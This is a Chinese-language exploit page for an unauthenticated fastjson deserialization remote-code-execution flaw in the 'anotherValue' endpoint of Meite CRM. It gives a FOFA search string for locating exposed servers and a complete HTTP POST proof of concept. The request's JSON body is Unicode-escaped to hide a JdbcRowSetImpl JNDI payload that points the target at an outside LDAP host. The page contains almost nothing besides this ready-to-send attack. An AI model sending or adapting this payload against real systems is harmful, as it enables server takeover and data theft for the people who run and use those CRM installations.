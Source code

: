 # 美特CRM系统接口anotherValue存在FastJson反序列化RCE

美特CRM anotherValue接口处使用存在漏洞 fastjson 组件，未经身份验证的远程攻击者可通过fastjson 序列化漏洞对美特CRM发起攻击，执行任意代码并可获取服务器权限。

## fofa

```
body="/common/scripts/basic.js"
```

## poc

```
POST /eai/someValue/anotherValue HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Length: 373
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/json
Cookie: JSESSIONID=E010A1A6DED8C9644CFAB420D41F4EB7
Pragma: no-cache
Upgrade-Insecure-Requests: 1

{"b":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://fpwnnkhmfn.dgrh3.cn","autoCommit":true}}
```

